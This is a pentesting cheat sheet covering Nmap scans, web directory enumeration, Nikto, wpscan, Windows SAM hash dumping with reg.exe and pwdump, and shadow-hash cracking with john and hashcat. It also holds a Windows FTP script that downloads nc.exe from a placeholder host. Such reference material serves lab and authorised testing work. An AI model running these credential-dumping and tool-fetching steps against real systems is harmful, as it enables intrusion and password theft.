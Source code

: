 Nmap Scans
-----------
      Aggressive Scan, Top Ports:   nmap -sC -sV x.x.x.x -oA Top-Ports
      Full Port Scan:               nmap -p- x.x.x.x -max-retries=2 -oA All_ports
      Aggressive Service Scan:      nmap -sC -sV -p 21,22,80,5435,8082,9092 x.x.x.x -oA Full-Service_Scan


Web Directory Enum
------------------
      dirsearch.py -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://x.x.x.x/ -e *
      gobuster dir -u http://x.x.x.x/ -w /path/to/directory-list-2.3-medium.txt -x <extension>
      ffuf -c -ic -w /path/to/Web-Content/directory-list-2.3-big.txt -u http://IP/FUZZ -t 100 -fc 401 -v
      ./feroxbuster --url https://website.com -x pdf -x js,html -x php txt json,docx -w /SecLists/Discovery/Web-Content/raft-medium-directories.txt -a 'Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:47.0) Gecko/20100101 Firefox/47.0'

Nikto
-----
      nikto -h x.x.x.x

wpscan
------
      wpscan --enumerate p,u,t -disable-tls-checks --url http://x.x.x.x

Dumping Hashes -Windows
----------------------
      reg.exe save hklm\sam c:\windows\temp\sam.save
      reg.exe save hklm\system c:\windows\temp\system.save

      pwdump system.save sam.save

Password Cracking - Linux
-------------------------
      unshadow passwd-file.txt shadow-file.txt > unshadowed.txt
      john --rules --wordlist=wordlist.txt unshadowed.txt

      hashcat -a 0 -m <mode> <hash-file> /path/to/rockyou.txt --force

Linux Shadow
------------
      nyau:$6$3GvJsNPG$ZrSFprHS13divBhlaKg1rYrYLJ7m1xsYRKxlLh0A1sUc/6SUd7UvekBOtSnSyBwk3vCDqBhrgxQpkdsNN6aYP1:18233:0:99999:7:::
      nyau - login username
      $6 - id of the hashing algorithm, id 6 is SHA-512
      $3GvJsNPG - salt of the hash
      $Zr.......P1 - hashed password

      hashcat -a 0 -m 1800 '$'6'$'3GvJsNPG'$'ZrSFprHS13divBhlaKg1rYrYLJ7m1xsYRKxlLh0A1sUc/6SUd7UvekBOtSnSyBwk3vCDqBhrgxQpkdsNN6aYP1 rockyou.txt --force  
Note, we enclose ‘$’ to prevent variable substitution

Moar:https://vulp3cula.gitbook.io/hackers-grimoire/exploitation/password-cracking

FTP file Transfer
-----------------
      echo open x.x.x.x 21> ftp.txt
      echo USER root>> ftp.txt
      echo lab>> ftp.txt
      echo bin >> ftp.txt
      echo GET nc.exe >> ftp.txt
      echo bye >> ftp.txt
      ftp -v -n -s:ftp.txt

